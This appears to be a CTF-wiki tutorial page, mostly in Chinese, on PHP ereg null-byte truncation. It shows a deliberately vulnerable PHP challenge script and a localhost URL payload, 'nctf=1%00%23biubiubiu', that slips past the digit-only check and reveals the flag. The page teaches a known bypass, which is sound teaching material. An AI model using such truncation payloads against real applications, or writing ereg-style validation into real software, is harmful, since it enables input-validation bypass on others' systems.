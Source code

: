 # ereg正则%00截断
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



```plain

<?php
$flag = "flag";
if (isset ($_GET['nctf'])) {
if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
echo '必须输入数字才行';
else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)
die('Flag: '.$flag);
else
echo '骚年，继续努力吧啊~';
}
?>
Plain Text
```



ereg函数遇到%00会认为函数执行完毕


[http://127.0.0.1/Php_Bug/16.php?nctf=1%00%23biubiubiu](http://127.0.0.1/Php_Bug/16.php?nctf=1%00%23biubiubiu)




